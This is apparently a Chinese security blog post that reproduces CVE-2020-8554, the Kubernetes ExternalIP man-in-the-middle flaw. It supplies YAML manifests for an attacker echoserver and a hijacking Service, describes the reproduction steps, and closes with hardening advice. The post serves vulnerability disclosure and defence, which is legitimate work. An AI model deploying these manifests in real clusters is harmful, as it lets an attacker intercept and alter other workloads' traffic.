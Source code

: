 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/nFMK5pLKtR2MDJFGppFypw)

漏洞简介
----

Kubernetes存在安全漏洞，该漏洞于2020年12月8日在Kubernetes的安全通告中被披露。漏洞编号：CVE-2020-8554。如果攻击者可以创建或编辑服务和容器，则此安全问题使攻击者能够拦截来自群集中其他容器（或节点）的流量。攻击者可利用该漏洞通过Kubernetes上的LoadBalancer或ExternalIP充当中间人，以便在会话中读取或写入数据。值得注意的是，该漏洞披露最初是在大约一年前发现的，它揭示了一个影响所有Kubernetes版本的设计缺陷，并且目前还没有缓解该问题的软件更新。

影响范围
----

kubernetes 所有版本

背景
--

长期修复方案仍未确定，官网可能从以下四个方面入手修复该漏洞

1）决定停止支持外部IP，弃用并最终删除该功能  
2）尝试重新设计外部IP功能，弃用旧行为并管理向新功能的迁移  
3）接受当前状态，并将externalip-webhook升级为内置准入控制器  
4）接受当前状态，并支持externalip-webhook作为长期解决方案

为了印证该漏洞的影响，我们对该漏洞进行了复现与解析。

原理
--

集群内某些服务绑定了某些本地网络以外的IP，导致集群内发往这些ip的数据包被k8s路由到以上的服务，而非默认网关中。

复现
--

### 准备环境

#### 集群环境

准备以下环境，其中ubuntu为主节点，ubuntu2004-0和ubuntu1804-0 工作节点  
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

#### yaml文件

##### test-nettools.yaml

test-nettools.yaml为工具容器的yaml文件，用于测试http访问结果。

```
apiVersion: v1  
kind: Pod  
metadata:  
  name: test-nettools  
spec:  
  containers:  
    - name: nettools  
      image: travelping/nettools  
      command: [ "/bin/sleep", "3600" ]
```

##### echoserver.yaml

echoserver.yaml为攻击者创建Deployment的yaml文件，用于在集群内接收被劫持流量

```
apiVersion: v1  
kind: Namespace  
metadata:  
  name: kubeproxy-mitm  
---  
apiVersion: apps/v1  
kind: Deployment  
metadata:  
  name: echoserver  
  namespace: kubeproxy-mitm  
spec:  
  replicas: 1  
  selector:  
    matchLabels:  
      app: echoserver  
  template:  
    metadata:  
      labels:  
        app: echoserver  
    spec:  
      containers:  
      - image: gcr.io/google_containers/echoserver:1.10  
        name: echoserver  
        ports:  
        - name: http  
          containerPort: 8080  
        - name: https  
          containerPort: 8443  

```

##### mitm-externalip.yaml

mitm-externalip.yaml，为部署service的yaml文件,用以部署劫持服务。

```
apiVersion: v1  
kind: Service  
metadata:  
  name: mitm-externalip  
  namespace: kubeproxy-mitm  
spec:  
  ports:  
  - name: http  
    port: 80  
    targetPort: 8080  
  - name: https  
    port: 443  
    targetPort: 8443  
  selector:  
    app: echoserver  
  type: ClusterIP  
  externalIPs:  
    - 192.168.254.116  

```

##### web服务

kali.dosec 是集群外内网web服务

### 复现过程

#### 1）test-nettools容器默认在default namespace 下运行

之后我们会模拟劫持前后使用test-nettools容器访问kali.dosec这个web服务，来观测劫持前后的变化  
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

#### 2）记录kali.dosec 的ip地址

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

#### 3）记录流量被劫持前，test-nettools容器访问kali.dosec的回显

kali.dosec是内部搭建的一个web测试站点，该站点默认回显内容为hello,world. This is kali.dosec  
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

#### 4）修改，部署poc

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

#### 5）验证部署状态

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

#### 6）利用验证

test-nettools 访问 kali.dosec 但很明显应答是由 echoserver 做出的，即劫持成功，漏洞利用验证通过  
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

### 视频演示

漏洞分析  

-------

总体来说，该漏洞的成因是Kubernetes的设计缺陷。利用该漏洞至少需要RBAC权限才能创建，更新或修补服务资源。尤其是：  
1、能够创建ClusterIP服务并设置spec.externalIPs字段的攻击者可以拦截到该IP的流量。  
2、能够修补LoadBalancer服务status.loadBalancer.ingress.ip的status.loadBalancer.ingress.ip字段的攻击者可以拦截到该IP的流量。

加固建议
----

1）关注官方对该问题的修复，参考连接如下:  
https://github.com/kubernetes/kubernetes/issues/97110

2) 对LoadBalancer和ExternalIP进行限制  
参考连接为：https://github.com/kubernetes-sigs/externalip-webhook

下期预告
----

这可能是你看到的2020年的封笔之作了，所以记得点赞、评论、转发，一箭三连，突破3000才有下期。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)